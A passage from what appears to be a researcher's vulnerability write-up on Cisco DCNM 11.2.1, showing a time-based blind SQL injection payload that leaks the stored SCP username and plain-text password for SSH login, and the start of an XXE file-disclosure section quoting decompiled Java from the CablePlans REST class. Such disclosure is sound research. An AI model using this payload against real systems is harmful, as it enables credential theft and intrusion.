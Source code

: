 [ret2toc](#table-of-contents)

### Primitive 3 - SCP Credential Leak

Vulnerable Targets:
- ISO Virtual Appliance for VMWare (dcnm-va.11.2.1.iso.zip)

Some of the SQL injection vulnerabilities didn't allow me to stack the queries. The code would sometimes split the injected string on the `;` character. Since I could only leak information from the database with them, I developed a statement that allowed me to leak the SCP username and plain-text password out of the `image_and_config_server` table.

```sql
and 'a'=(select case when substr(concat(username,'|',password), %d, 1)='%s' then pg_sleep(%d)||'a' else null end from image_and_config_server where name='Default_SCP_Repository')--
```

Once this was done, I could just login via SSH.

![Leaking SCP credentials and logging in to the system via SSH](/assets/images/busting-ciscos-beans/sqli-id.png "Leaking SCP credentials and logging in to the system via SSH")

[ret2toc](#table-of-contents)

## SQLi2FD Primitive

This is the file disclosure primitive I used to chain with arbitrary sql execution vulnerabilities. This primitive take advantage of the assumed trust that the application code had with the database.

In this case, there was no second order attack - meaning that the insertion stage of data injection was filtered for malicious input enough to prevent direct file disclosure. This is why it was not considered a vulnerability itself.

### External Entity Injection (XXE)

Vulnerable Targets:
- Installer for Windows (dcnm-installer-x64-windows.11.2.1.exe.zip)
- ISO Virtual Appliance for VMWare (dcnm-va.11.2.1.iso.zip)

In the `com.cisco.dcbu.vinci.rest.services.CablePlans` class, we can see the REST method `getCablePlan`.

```java
/*      */ @Path("/cable-plans/")
/*      */ public class CablePlans

...

/*      */   @GET
/*      */   @Produces({"application/json"})
/*      */   @Mapped
/*      */   public Response getCablePlan(@QueryParam("detail") boolean detail) {
/*      */     try {
/*  213 */       System.out.println("[DEBUG DETAIL Value:: ]::  " + detail);
/*  214 */       if (detail) {
/*      */         
/*  216 */         List<CablePlan> cablePlanList = viewCablePlanContent(detail);
```
